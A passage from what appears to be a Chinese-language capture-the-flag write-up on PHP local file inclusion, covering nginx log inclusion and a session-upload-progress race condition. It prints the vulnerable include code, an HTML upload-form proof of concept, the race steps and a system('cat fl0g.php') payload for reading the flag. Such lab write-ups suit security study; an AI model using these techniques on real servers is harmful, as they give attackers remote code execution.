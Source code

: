 payload:

```php
?file=/var/log/nginx/access.log
```

同样包含日志文件getshell，

## web82~session文件竞争包含

```php
 <?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
} 
```

这里把点过滤了，就不能包含日志文件了。

但是我们可以包含 session 文件。

poc:

```html
<!DOCTYPE html>
<html>
<body>
<form action="ip地址" method="POST" enctype="multipart/form-data">
<input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="2333" />
<input type="file" name="file" />
<input type="submit" value="submit" />
</form>
</body>
</html>
```

[![DZgA91.md.png](https://s3.ax1x.com/2020/11/17/DZgA91.md.png)](https://imgchr.com/i/DZgA91)

把上述代码保存为html或者php文件后，在上传任意一个文件。抓包，在把cookie改为`Cookie: PHPSESSID=flag` 使得session文件为 `/tmp/sess_flag` ,然后设置`null payload` 开始一直上传。

紧接着抓取，

[![DZgdEQ.md.png](https://s3.ax1x.com/2020/11/17/DZgdEQ.md.png)](https://imgchr.com/i/DZgdEQ)

如图，包含`?file=/tmp/sess_flag` 文件，竞争，在没删除前访问到。

[![DZgogx.md.png](https://s3.ax1x.com/2020/11/17/DZgogx.md.png)](https://imgchr.com/i/DZgogx)

得到`fl0g.php`,接下来构造上传文件包`<?php system('cat fl0g.php');?>`得到flag.竞争。
